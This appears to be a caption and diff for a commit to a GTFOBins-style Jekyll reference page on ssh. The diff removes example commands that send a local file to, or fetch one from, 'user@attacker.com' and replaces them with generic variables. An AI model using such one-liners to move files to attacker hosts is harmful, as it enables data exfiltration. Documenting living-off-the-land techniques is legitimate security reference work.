

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/ssh.md, in a window 1280 px wide, cut to the strip 339-854 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update ssh.md

```diff
--- a/_gtfoud/ssh.md
+++ b/_gtfoud/ssh.md
@@ -3,15 +3,9 @@ functions:
   file-upload:
     - description: Send local file to a SSH server.
       code: |
-        HOST=user@attacker.com
-        RPATH=file_to_save
-        LPATH=file_to_send
-        ssh $HOST "cat > $RPATH" < $LPATH
+        ssh $RHOST "cat > $NFILE" < $LFILE
   file-download:
     - description: Fetch a remote file from a SSH server.
       code: |
-        HOST=user@attacker.com
-        RPATH=file_to_get
-        LPATH=file_to_save
-        ssh $HOST "cat $RPATH" > $LPATH
+        ssh $RHOST "cat $NFILE" > $LFILE
 ---
```
